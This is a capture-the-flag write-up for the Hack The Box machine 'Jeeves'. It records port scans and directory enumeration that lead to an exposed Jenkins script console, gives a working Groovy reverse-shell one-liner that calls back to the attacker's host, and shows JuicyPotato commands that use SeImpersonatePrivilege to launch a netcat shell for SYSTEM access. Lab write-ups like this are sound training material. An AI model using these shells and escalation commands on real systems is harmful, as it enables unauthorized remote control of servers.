 ```yaml
---
URL: https://app.hackthebox.com/machines/114
---
```

## Port Scan

We get the following result when we run a port scan on the machine

```bash
$ sudo nmap -sS -p- -Pn 10.10.10.63 --min-rate=5000 -oN all
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 10:07 AEST
Nmap scan report for 10.10.10.63
Host is up (0.34s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 27.07 seconds

$ sudo nmap -sC -sV 10.10.10.63 -Pn -p80,135,445,50000     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 10:08 AEST
Nmap scan report for 10.10.10.63
Host is up (0.33s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h00m33s, deviation: 0s, median: 5h00m33s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-13T05:09:24
|_  start_date: 2025-07-13T05:06:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.45 seconds
```

We see the following services running on the machine.

1. `80`: Microsoft IIS HTTP server
2. `135`: Windows RPC
3. `445`: SMB Share
4. `50000`: Jetty http server

## Webserver on 80

When we visit the site we are greeted with the following page.

![[Jeeves_website.png]]

If we do a quick view page source we see all requests are forwarded to an `error.html` resource and none of the hyperlinks work.

```HTML
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

The `error.html` pages looks like an actual error at a glance, but upon further inspection we notice it is simply an image.

![[Jeeves_error.png]]

## Jetty Server on 50000

Since the webserver seemed like a dead end, we can try to enumerate the service on port `50000` to see whether there are any interesting directories.

```bash
$ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

When we visit the `askjeeves` end-point, we are greeted with a Jenkins server. Since we seem to have access to the script console (`Manage Jenkins > Script Console`) we can use a `Groovy` script to spawn a rev shell to our machine.

```Groovy
String host="10.10.14.19";int port=6666;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

If we check the privileges the user we have compromised has, we see that `SeImpersonatePrivilege` is enabled.

```bash
JuicyPotato.exe -l 1337 -p nc64.exe -a "10.10.14.19 6667 -e cmd.exe" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/k whoami" -t * -c {CLSID}